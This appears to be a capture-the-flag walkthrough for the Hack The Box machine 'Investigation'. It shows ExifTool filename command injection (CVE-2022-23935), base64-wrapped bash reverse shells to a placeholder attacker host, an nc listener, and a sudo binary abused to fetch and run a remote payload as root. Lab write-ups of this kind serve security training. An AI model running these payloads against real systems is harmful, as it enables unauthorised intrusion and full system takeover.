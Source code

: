 🕵️ HTB: Investigation – Full Walkthrough

⚡ TL;DR

    Exploited ExifTool v12.37 (CVE-2022-23935) to achieve RCE via image upload

    Recovered credentials from a .msg file containing an embedded .evtx log

    Parsed security.evtx with Chainsaw to extract login data

    Escalated privileges using a vulnerable binary executed with sudo

    Rooted the machine via command injection over HTTP

🔍 Enumeration

Started with a basic port scan:

nmap -sC -sV -Pn <target-ip>

Ports Open:

    22 SSH

    80 HTTP

Browsing port 80 revealed a basic website with an image upload functionality. Upload restrictions allowed only image file types, hinting at server-side file handling.
📷 Exploiting ExifTool (CVE-2022-23935)

After uploading an image, the site displayed its metadata—powered by ExifTool. The version (12.37) was exposed in the output.

A quick search confirmed it's vulnerable to command injection due to how Perl handles filenames. The payload is executed if malicious commands are embedded in the filename itself.

Test Payload:

Filename: |sleep 5

Verified via BurpSuite with a 5-second delay — confirming RCE.
🐚 Getting a Reverse Shell

Encoded a bash reverse shell in base64 to bypass input filtering:

bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1

Base64-encoded, then wrapped in:

echo <base64> | base64 -d | bash

Inserted this payload into the image filename, uploaded via Burp, and triggered it. Shell received as www-data.
📬 Analyzing the .msg File

Found a Microsoft Outlook message (.msg) on the server and downloaded it:

md5sum Email.msg  # Verified file integrity

Converted the .msg file using:

sudo apt install libemail-outlook-message-perl
msgconvert Email.msg

The resulting .eml file included a base64-encoded ZIP file named evt-logs.zip.b64.
📦 Extracting security.evtx

To clean the encoding format:

dos2unix evt-logs.zip.b64
base64 -d evt-logs.zip.b64 > evt-logs.zip
unzip evt-logs.zip

Inside was a Windows Event Log: security.evtx
🔍 Credential Extraction via Chainsaw

Used Chainsaw to parse login events:

./chainsaw search -t 'Event.System.EventID: =4625' security.evtx --json > failed-logins.json

Then extracted meaningful fields:

cat failed-logins.json | jq '.[].Event.EventData | "\(.LogonProcessName)\(.ProcessName) \(.TargetDomainName) \(.TargetUserName)"' -r | sort -u

Captured login attempts revealing a valid user:password combination.
🔐 Lateral Movement – Login as User

With valid credentials, switched from www-data to user smorton.
🔓 Privilege Escalation – Sudo Abuse

Ran:

sudo -l

Discovered sudo access to /usr/bin/binary — a custom 64-bit ELF binary.

Decompiled using Ghidra, the logic was as follows:

    Must be run with sudo

    Requires second argument: lDnxUysaQn

    Fetches remote payload via curl <arg> into a file

    Executes the file with perl

⚙️ Exploiting Binary

Prepared a payload delivery setup:

    Malicious script:

echo "bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1" > index.html

    Serve it:

python3 -m http.server 80

    Listener:

nc -lvnp <port>

    Exploit execution:

sudo /usr/bin/binary http://<attacker-ip>/index.html lDnxUysaQn

The binary fetched and executed the malicious HTML via Perl — resulting in a root shell.
🏁 Conclusion

    ✅ Initial Access: RCE via ExifTool filename injection

    ✅ Information Disclosure: Password extracted from .evtx using Chainsaw

    ✅ Privilege Escalation: Misconfigured binary allowed remote script execution via sudo

    ✅ Root Shell Acquired

🧠 Key Tools Used

    📦 ExifTool Exploit (CVE-2022-23935)

    🧰 Chainsaw for event log parsing

    🕵️ BurpSuite for testing upload injection

    🔬 Ghidra for binary analysis

    ⚙️ msgconvert & dos2unix for email decoding

🎉 Rooted HTB: Investigation
Status: ✅ Completed
Difficulty: Medium
Methodology: Logical, clean, privilege abuse via upload chain + weak binary logic
